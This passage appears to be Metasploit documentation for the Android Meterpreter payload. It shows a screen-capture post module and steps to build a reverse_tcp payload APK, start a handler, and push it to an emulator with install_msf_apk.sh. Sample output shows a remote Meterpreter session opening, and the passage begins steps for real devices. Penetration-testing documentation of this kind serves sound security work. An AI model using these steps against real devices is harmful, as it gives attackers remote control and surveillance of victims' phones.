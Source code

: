 
**`run`**

The `run` command allows you to run a post module against the remote machine at the Meterpreter
prompt. For example:

```
    meterpreter > run post/android/capture/screen
```

## Scenarios

**Uploading APK to an Emulator using `install_msf_apk.sh`**

The Metasploit Framework comes with a script that allows you to
automatically upload your APK to an active emulator and execute it. It
requires the [Android SDK platform-tools][sdk] to run, as well as
[Java](https://java.com/en/download/).

To use this, follow these steps:

1. Start the Android Emulator
2. Generate the Android payload as an APK.
3. In msfconsole, start a handler for `android/meterpreter/reverse_tcp`
4. Run the installer script like this from a terminal:

    $ tools/exploit/install_msf_apk.sh /tmp/android.apk

The the script will do something like this:

    $ tools/exploit/install_msf_apk.sh /tmp/android.apk
      adding: META-INF/ANDROIDD.SF
      adding: META-INF/ANDROIDD.RSA
      signing: classes.dex
      signing: AndroidManifest.xml
      signing: resources.arsc
    Failure
    1562 KB/s (10715 bytes in 0.006s)
      pkg: /data/local/tmp/android.apk
    Success
    rm failed for -f, Read-only file system
    Starting: Intent { act=android.intent.action.MAIN cmp=com.metasploit.stage/.MainActivity }

Back in msfconsole, you should receive a session:

    [*] Started reverse TCP handler on 192.168.1.199:4444
    [*] Starting the payload handler...
    [*] Sending stage (62432 bytes) to 192.168.1.199
    [*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.199:49178) at 2016-03-08 13:00:10 -0600

    meterpreter >

**Uploading APK to a real Android device using `install_msf_apk.sh`**

On the Android device, make sure to enable Developer Options. To do this:

1. Go to Settings -> About -> Software Information
2. Tap on the Build Number section a couple of times. It should unlock Developer Options.
3. Go back to the Settings page, you should see Developer Options.


[sdk]: http://developer.android.com/sdk/index.html#Other
[studio]: http://developer.android.com/sdk/installing/index.html?pkg=studio
[genymotion]: https://www.genymotion.com/download/
[avd]: https://github.com/dral3x/AndroidAVDRepo